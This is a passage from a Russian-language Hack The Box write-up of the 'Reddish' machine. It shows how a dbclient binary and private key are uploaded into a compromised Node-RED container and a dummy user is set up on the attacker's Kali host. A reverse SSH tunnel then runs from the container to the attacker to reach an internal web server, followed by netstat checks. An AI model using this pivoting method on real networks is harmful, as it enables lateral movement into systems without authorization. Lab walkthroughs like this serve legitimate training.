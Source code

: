 ![nodered-upload-dbclient.png](/assets/images/htb/machines/reddish/nodered-upload-dbclient.png)
{:.center-image}

Все, SSH-клиент вместе с 521-битный приватным ключом ([на эллиптике](https://xakep.ru/2019/08/27/elliptic-curve-cryptography/)) улетели в контейнер. Теперь создадим фиктивного пользователя с шеллом `/bin/false`, чтобы не подставлять свою машину в случае, если кто-то наткнется на закрытый ключ.

```
root@kali:~# useradd -m snovvcrash
root@kali:~# vi /etc/passwd
... Меняем шелл юзера snovvcrash на "/bin/false" ...
root@kali:~# mkdir /home/snovvcrash/.ssh
root@kali:~# vi /home/snovvcrash/.ssh/authorized_keys
... Копируем открытый ключ ...
```

Все готово, можно пробрасывать туннель.

```
root@nodered:/tmp# ./dbclient -f -N -R 8890:172.19.0.3:80 -i .secret -y snovvcrash@10.10.14.19
```

* `-f` — свернуть клиент в бэкграунд после аутентификации на сервере;
* `-N` — не выполнять команды на сервере и не запрашивать шелл;
* `-R 8890:172.19.0.3:80` — слушать `localhost:8890` на Kali и перенаправлять все, что туда попадет, на `172.19.0.3:80`;
* `-i .secret` — аутентификация по приватному ключу `.secret`;
* `-y` — автоматически добавлять хост с отпечатком его открытого ключа в список доверенных.

На Kali можно проверить успешность создания туннеля с помощью каноничного `netstat` или его новомодной альтернативы `ss`.

```
root@kali:~# netstat -alnp | grep LIST | grep 8890
tcp        0      0 127.0.0.1:8890          0.0.0.0:*               LISTEN      236550/sshd: snovvc
tcp6       0      0 ::1:8890                :::*                    LISTEN      236550/sshd: snovvc
root@kali:~# ss | grep 1880
tcp    ESTAB   0        0                                10.10.14.19:43590                         10.10.10.94:1880
```
